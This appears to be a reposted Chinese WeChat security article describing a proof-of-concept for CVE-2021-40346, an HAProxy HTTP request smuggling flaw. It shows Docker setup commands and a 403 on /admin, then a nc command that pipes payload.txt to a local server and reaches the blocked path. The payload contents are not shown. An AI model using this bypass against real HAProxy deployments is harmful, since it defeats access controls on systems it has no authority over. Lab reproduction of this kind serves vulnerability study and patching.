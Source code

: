 #  CVE-2021-40346（HAProxy HTTP 走私）屁噢C

knqyf263  [ Khan安全攻防实验室 ](javascript:void\(0\);)

**Khan安全攻防实验室** ![]()

微信号 KhanCJSH

功能介绍 安全不是一个人，我们来自五湖四海。研究方向Web内网渗透，免杀技术，红蓝攻防对抗，CTF。

____

__

收录于话题

  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210911114224.png)

  

docker启动

  

  *   *   * 

    
    
    $ docker build -t cve-2021-40346 .$ docker run --name poc -p 8000:80 -d --rm -it cve-2021-403464941e9f23508b497e4cbe334a75e7cdb84c83478522ed85f48db3477f97a6fb4

  

  

测试：  

        确认`/admin`被拒绝。  
  

  *   *   *   *   *   * 

    
    
    $ curl http://localhost:8000hello$ curl http://localhost:8000/admin<html><body><h1>403 Forbidden</h1>Request forbidden by administrative rules.</body></html>

  

        你不会`/admin`在日志中看到。这意味着请求没有到达后端服务器，因为 HAProxy 拒绝了它。

  

  *   *   * 

    
    
    $ docker logs pocserver start at port 8000/

  

  

然后，您可以确保它可以被 payload.txt 绕过。

  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    $ cat payload.txt | nc localhost 8000HTTP/1.1 200 OKcontent-type: text/plaindate: Wed, 08 Sep 2021 22:31:10 GMTkeep-alive: timeout=5transfer-encoding: chunked  
    6hello  
    0

  

  

你会`/admin`在日志中找到。

  

  *   *   *   *   * 

    
    
    $ docker logs pocserver start at port 8000///admin

  

项目地址：  

  

aHR0cHM6Ly9naXRodWIuY29tL2tucXlmMjYzL0NWRS0yMDIxLTQwMzQ2

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

CVE-2021-40346（HAProxy HTTP 走私）屁噢C

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

